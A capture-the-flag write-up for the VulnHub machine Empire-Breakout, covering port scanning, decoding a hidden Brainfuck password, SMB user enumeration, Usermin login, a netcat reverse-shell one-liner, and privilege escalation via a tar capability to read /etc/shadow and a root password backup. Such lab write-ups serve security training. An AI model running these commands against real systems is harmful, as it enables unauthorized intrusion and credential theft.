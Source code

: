 ```yaml
---
layout: post
title: Empire-Breakout
categories: VulnHub Machines
permalink: /vulnhub/empire-breakout
---
```


Author: Icex64 & Empire Cybersecurity
Machine: [https://www.vulnhub.com/entry/empire-breakout,751/](https://www.vulnhub.com/entry/empire-breakout,751/)

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 02:53 UTC
Nmap scan report for 192.168.56.135
Host is up (0.00092s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:A2:1E:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-time: 
|   date: 2025-01-09T02:53:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.56.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.84 seconds
```

## Port 80

![image1](https://github.com/user-attachments/assets/bd17d2ef-e799-4ea5-a5de-bad5e810d366)


We are greeted with the apache2 default page. Nothing too special on the page. Let’s look at the source code to see if we find anything.

### Source Code

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

We can find the above comment hidden within the source code of the page. The weird looking string is encoded using the Brainf**k cipher. Decoding it we get the below string

```bash
.2uqPEfj3D<P'a-3
```

It seems this could be a password to an account. Let’s visit the other ports where we saw MiniServ running.

## Port 10000

![2](https://github.com/user-attachments/assets/033a6325-8e57-4b01-abd9-3563a2ccbd6f)


We are greeted with a login page. We can try to login with the password we obtained earlier. Using admin as the user with the password doesn’t work. This means that we need to look for a valid username.

If we look back at the nmap scan we can see that smb is running. We can use enum4linux to find valid users

## enum4linux

```bash
enum4linux -r 192.168.56.135
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  9 03:10:36 2025

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                            
Target ........... 192.168.56.135                                                                                                                                                                                                           
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

<SNIP>                                                                                                                                                                        

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                            
S-1-22-1-1000 Unix User\cyber (Local User)                                                                                                                                                                                                  

<SNIP>

enum4linux complete on Thu Jan  9 03:10:49 2025
```

We can see that there is a local user with the username cyber. Let’s try using that as our username on the Webmin login page.

![3](https://github.com/user-attachments/assets/8275438b-88ba-4f0b-80f9-0b35da20197d)


Well, that didn’t work. There is another service Usermin running on port 20000. We can check to see if the credentials work there.

![4](https://github.com/user-attachments/assets/95f7ce8d-5992-4189-9365-8eb3cf20fe7d)


And there we go, we are now logged in onto Usermin. We can now use the inbuilt terminal to run commands on the server.

![5](https://github.com/user-attachments/assets/2fac5282-770c-41d3-9c56-b40366344a92)


Let us get a more interactive shell by using netcat.

```bash
[cyber@breakout ~]$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4242 >/tmp/f
```

![6](https://github.com/user-attachments/assets/5c5c8360-deb2-49c3-bc68-6a87da642b3b)


After getting a more interactive shell using python, we get the user.txt file.

Now time to escalate the privileges.

## Priv Esc

We can see that there is a binary for the tar program there. Which is likely our way to root.

![7](https://github.com/user-attachments/assets/4e44aa5b-bc81-44ce-a927-d46c094eb2d1)


My first thought was that maybe we have sudo as root on the tar binary. But sudo was disabled so we can’t do that.

We can use getcap to see what capabilities the binary has.

![9](https://github.com/user-attachments/assets/bc0bd0f1-c59b-435a-ab26-c15683ef1bfc)


The cap_dac_read_search capability allows us to bypass file read permissions.

We can try and see if we can read the /etc/shadow file.

![10](https://github.com/user-attachments/assets/fcd09e0a-03dd-4426-b0d3-97473c9f9a39)


And sure enough we can.

We can try and crack the hashes offline, but considering the password for cyber was complex, we should check to see if we have any other way.

Since we can read any file as root, we can look for interesting files owned by root in any of the usual places such as /var/backup or /opt.

![11](https://github.com/user-attachments/assets/fc7ac7d8-21e2-4950-8e56-79c736f14f7e)


Looking at /var/backup we can see a .old_pass.bak file which is readable only by root.

Let’s use out tar binary to read this file.

![12](https://github.com/user-attachments/assets/7775db6b-c588-418b-825a-0807ce461d86)


We seem to get a complex looking password.

Let’s try to su to root using this pass.

![13](https://github.com/user-attachments/assets/46e2d85e-986e-4b22-b607-195993c8424f)


And there we go, we finally have root

![14](https://github.com/user-attachments/assets/b4681ba9-e7c7-481b-b147-3fb6bb338079)
